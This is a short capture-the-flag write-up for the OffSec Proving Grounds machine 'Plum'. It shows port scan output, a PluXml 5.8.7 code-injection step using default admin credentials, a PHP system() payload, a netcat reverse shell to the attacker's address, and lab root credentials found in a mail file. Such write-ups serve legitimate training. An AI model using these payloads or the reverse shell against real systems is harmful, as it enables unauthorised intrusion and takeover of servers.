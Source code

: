 # Plum

## Info

Plum is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.56 ((Debian))
```

## User

PluXml 5.8.7 is vulnerable to code injection.

Sign in as admin.

```
admin:admin
```

Go to the static pages section, edit the page with the following.

```
<?php system("id"); ?>
```

After selecting see next to the edit button this shows code execution and the user is www-data.

Get a nc shell.

```
nc -lvnp 80
```

```
<?php system("nc -e /bin/bash 192.168.45.218 80"); ?>
```

## Root

There is an email in /var/mail stating a ddos attack is happening and the root credentials are given to the pentester.

```
root:6s8kaZZNaZZYBMfh2YEW
```
